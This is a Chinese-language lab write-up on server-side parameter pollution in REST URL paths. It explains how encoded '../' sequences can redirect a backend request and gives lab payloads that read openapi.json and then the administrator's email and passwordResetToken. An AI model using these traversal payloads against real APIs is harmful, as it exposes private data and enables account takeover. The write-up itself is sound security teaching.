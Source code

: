 ## 测试 REST 路径中的服务器端参数污染

RESTful API 可以将参数名称和值放在 URL 路径中，而不是查询字符串中。例如，请考虑以下路径：

```
/api/users/123
```

URL 路径可能细分如下：

- `/api`是根 API 端点。
- `/users`表示一个资源，在本例中为 。`users`
- `/123`表示一个参数，这里是特定用户的标识符。

### 案例

当你发送如下请求：

```
GET /edit_profile.php?name=peter
```

这将产生以下服务器端请求：

```
GET /api/private/users/peter
```

攻击者可能能够操控服务器端 URL 路径参数来利用 API。例如提交 URL-encoded 作为参数的值：`peter/../admin`

```
GET /edit_profile.php?name=peter%2f..%2fadmin
```

这可能会导致以下服务器端请求：

```
GET /api/private/users/peter/../admin
```

如果服务器端客户端或后端 API 规范化此路径，则可能会将其解析为：`/api/private/users/admin`

### 实验

```
..%2f..%2f..%2f..%2fopenapi.json%23
../../../../openapi.json#

# 如上 payload 访问到根路径的 openapi.json 配置文件。
```

![image-20250511194726667](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/API%20%E6%BC%8F%E6%B4%9E/images/image-20250511194726667.png)

```
# 返回内容发现系统的 api 处理规则：
/api/internal/v1/users/{username}/field/{field}\
```

```
# 尝试利用此规则获取管理员邮箱。
../../../../api/internal/v1/users/administrator/field/email/#
..%2f..%2f..%2f..%2fapi%2finternal%2fv1%2fusers%2fadministrator%2ffield%2femail%2f%23
```

![image-20250511195336601](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/API%20%E6%BC%8F%E6%B4%9E/images/image-20250511195336601.png)

```
# 尝试利用此规则获取管理员 passwordResetToken。
../../../../api/internal/v1/users/administrator/field/passwordResetToken#
..%2f..%2f..%2f..%2fapi%2finternal%2fv1%2fusers%2fadministrator%2ffield%2fpasswordResetToken%23
```

![image-20250511195753614](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/API%20%E6%BC%8F%E6%B4%9E/images/image-20250511195753614.png)